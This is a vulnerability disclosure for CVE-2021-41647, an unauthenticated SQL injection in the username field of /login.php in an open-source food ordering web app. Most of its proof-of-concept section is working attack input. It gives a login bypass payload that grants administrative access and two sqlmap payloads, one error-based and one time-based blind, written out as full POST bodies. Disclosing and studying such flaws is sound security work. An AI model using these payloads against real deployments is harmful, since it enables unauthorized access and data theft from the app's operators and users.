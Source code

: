 # CVE-2021-41647

CVE-2021-41647 SQL Injection in Online-Food-Ordering-Web-App

The Online-Food-Ordering-Web-App is vulnerable to un-authenticated error and time-based blind SQL Injection attacks. 
The username parameter on the /login.php page does not sanitize the user input, an attacker is able to bypass the login using a simple bypass technique.

## Link To Application
[Online-Food-Ordering-Web-App](https://github.com/kaushikjadhav01/Online-Food-Ordering-Web-App)

## Affected Components & Parameter
**URL: /login.php**  
**PARAMETER: username**

## POC'S
### LOGIN BYPASS PAYLOAD
To bypass the user login and gain full administrative access, payload in the username input field:
user' or 1=1-- -

### SQLMAP PAYLOADS
Parameter: username (POST Request)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)  
    Payload: `username=test'||(SELECT 0x6d65686d WHERE 8694=8694 AND (SELECT 8639 FROM(SELECT COUNT(*),CONCAT(0x71626a7a71,(SELECT (ELT(8639=8639,1))),0x71766a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=asdfasdrf`

 Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)  
    Payload: `username=test'||(SELECT 0x6d6d6367 WHERE 7580=7580 AND (SELECT 4416 FROM (SELECT(SLEEP(5)))nUhT))||'&password=asdfasdrf`
    
### If the POC Image is unclear, please click on the GIF which will load in a better resolution.

![POC](https://github.com/MobiusBinary/F1/blob/main/Online-Food-Ordering-Web-App.gif) 

## Discovered by
Jason Colyvas  
[MOBIUSBINARY](https://mobiusbinary.com)  
September 20th, 2021

